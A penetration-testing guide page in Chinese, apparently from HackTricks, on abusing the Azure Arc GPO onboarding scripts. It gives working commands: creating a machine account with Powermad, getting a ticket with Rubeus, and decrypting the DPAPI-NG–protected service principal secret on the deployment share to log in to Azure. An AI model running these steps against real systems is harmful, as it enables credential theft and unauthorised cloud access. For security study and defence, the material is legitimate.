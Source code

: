 # Az - Arc vulnerable GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### Identifying the Issues

Azure Arc 允许通过组策略对象方法将新的内部服务器（加入域的服务器）集成到 Azure Arc 中。为此，Microsoft 提供了一个部署工具包，用于启动入驻程序。在 ArcEnableServerGroupPolicy.zip 文件中，可以找到以下脚本：DeployGPO.ps1、EnableAzureArc.ps1 和 AzureArcDeployment.psm1。

当执行 DeployGPO.ps1 脚本时，它会执行以下操作：

1. 在本地域中创建 Azure Arc 服务器入驻 GPO。
2. 将 EnableAzureArc.ps1 入驻脚本复制到为入驻过程创建的指定网络共享中，该共享还包含 Windows 安装程序包。

运行此脚本时，系统管理员需要提供两个主要参数：**ServicePrincipalId** 和 **ServicePrincipalClientSecret**。此外，还需要其他参数，例如域、托管共享的服务器的 FQDN 和共享名称。还必须向脚本提供租户 ID、资源组和其他必要信息等详细信息。

在指定共享的 AzureArcDeploy 目录中使用 DPAPI-NG 加密生成一个加密的秘密。加密的秘密存储在名为 encryptedServicePrincipalSecret 的文件中。可以在 DeployGPO.ps1 脚本中找到证据，其中通过调用 ProtectBase64 以 $descriptor 和 $ServicePrincipalSecret 作为输入来执行加密。描述符由域计算机和域控制器组 SID 组成，确保 ServicePrincipalSecret 只能由域控制器和域计算机安全组解密，如脚本注释中所述。
```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

我们有以下条件：

1. 我们已经成功渗透了内部网络。
2. 我们有能力在Active Directory中创建或控制计算机账户。
3. 我们发现了一个包含AzureArcDeploy目录的网络共享。

在AD环境中获取计算机账户有几种方法。最常见的方法之一是利用计算机账户配额。另一种方法涉及通过脆弱的ACL或各种其他错误配置来妥协计算机账户。
```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
一旦获得机器账户，就可以使用该账户进行身份验证。我们可以使用带有 netonly 标志的 runas.exe 命令，或者使用 Rubeus.exe 进行票证传递。
```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
通过将计算机帐户的 TGT 存储在内存中，我们可以使用以下脚本解密服务主体密钥。
```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
另外，我们可以使用 [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG)。

此时，我们可以从存储在与 encryptedServicePrincipalSecret 文件相同的网络共享上的 ArcInfo.json 文件中收集连接到 Azure 所需的其余信息。该文件包含以下详细信息：TenantId、servicePrincipalClientId、ResourceGroup 等。凭借这些信息，我们可以使用 Azure CLI 以被攻陷的服务主体进行身份验证。

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}

